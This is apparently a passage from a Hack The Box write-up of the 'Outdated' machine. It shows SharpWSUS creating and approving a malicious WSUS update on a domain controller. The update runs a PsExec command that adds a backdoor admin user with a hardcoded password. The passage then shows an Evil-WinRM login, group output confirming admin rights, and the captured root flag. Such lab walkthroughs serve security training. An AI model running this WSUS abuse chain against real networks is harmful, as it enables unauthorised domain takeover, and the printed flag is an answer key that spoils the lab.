[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c &quot;net user 0xpthree Password123! /add &amp;&amp; net localgroup Administrators 0xpthree /add &amp;&amp; net localgroup Remote Management Users 0xpthree /add&quot;
################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent
ImportUpdate
Update Revision ID: 54
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 55
PrepareXMLBundletoClient
DeploymentRevision
[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN /groupname:"Group Name"
[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN
[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN /groupname:"Group Name"
[*] Create complete
*Evil-WinRM* PS C:\Windows\Tasks> ./SharpWSUS.exe approve /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:dc.outdated.htb /groupname:"Administrators"
[*] Action: Approve Update
Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: Administrators
Added Computer To Group
Approved Update
[*] Approve complete
➜ outdated evil-winrm -i outdated.htb -u 0xpthree -p Password123!
*Evil-WinRM* PS C:\Users\0xpthree\Documents> whoami
outdated\0xpthree
*Evil-WinRM* PS C:\Users\0xpthree\Documents> whoami /groups
Group Name Type SID Attributes
========================================== ================ ============ ===============================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators Alias S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access Alias S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label S-1-16-12288
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a6c2f6e1b2d05b537f337ba2f8209413References
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials
- https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/
- https://labs.nettitude.com/blog/introducing-sharpwsus/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#wsus-deployment